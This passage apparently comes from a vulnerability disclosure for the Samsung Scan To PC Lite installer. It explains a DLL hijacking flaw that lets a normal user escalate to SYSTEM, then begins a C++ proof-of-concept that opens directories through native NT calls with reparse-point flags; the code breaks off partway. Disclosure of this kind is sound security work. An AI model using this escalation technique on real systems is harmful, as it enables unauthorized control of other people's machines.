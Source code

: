 The Samsung Scan To PC Lite installer operates with Administrator privileges. This installer loads `${MUI_HELPER}.DLL` as the installation proceeds. This dll is loaded from the directory registered in the user environment variable, but the `%USERPROFILE%\AppData\Local\Microsoft\WindowsApps` directory among the user environment variables can be accessed by normal users, so an attacker can abuse the administrator's privileges. Eventually, dll hijacking can be used to elevate to SYSTEM privileges.


Note: `%Username%` must be replaced with the account name of the user logged into Windows.

## 0x05: Proof-of-Concept (PoC)

```cpp
#define _CRT_SECURE_NO_WARNINGS
#include <iostream>
#include <windows.h>
#include <wchar.h>
#include <string>
#include "NtDefine.h"

DWORD LastError = 0;
void SetLastErr(DWORD err) {
	LastError = err;
}

std::wstring BuildNativePath(std::wstring path) {
	if (path.rfind(L"\\", 0) != std::wstring::npos) {
		return path;
	}
	path = L"\\??\\" + path;
	return path;
}

HANDLE OpenDirectory(std::wstring directory, DWORD access_mask, DWORD share_mode, DWORD creation_disposition) {
	directory = BuildNativePath(directory);
	HANDLE h;
	OBJECT_ATTRIBUTES objattr;
	UNICODE_STRING target;
	IO_STATUS_BLOCK io;
	NTSTATUS status;
	_RtlInitUnicodeString(&target, directory.c_str());
	InitializeObjectAttributes(&objattr, &target, OBJ_CASE_INSENSITIVE, nullptr, nullptr);
	switch (creation_disposition) {
	case CREATE_NEW:
		status = _NtCreateFile(&h, access_mask, &objattr, &io, NULL, FILE_ATTRIBUTE_NORMAL, share_mode,
			FILE_CREATE, FILE_DIRECTORY_FILE | FILE_OPEN_REPARSE_POINT, NULL, NULL);
		break;
	case OPEN_EXISTING:
		status = _NtCreateFile(&h, access_mask, &objattr, &io, NULL, FILE_ATTRIBUTE_NORMAL, share_mode,
			FILE_OPEN, FILE_DIRECTORY_FILE | FILE_OPEN_REPARSE_POINT, NULL, NULL);
		break;
	default:
		status = _NtCreateFile(&h, access_mask, &objattr, &io, NULL, FILE_ATTRIBUTE_NORMAL, share_mode,
			FILE_OPEN_IF, FILE_DIRECTORY_FILE | FILE_OPEN_REPARSE_POINT, NULL, NULL);

	}
	if (status != STATUS_SUCCESS) {
		SetLastErr(_RtlNtStatusToDosError(status));
		return NULL;
	}
	return h;
```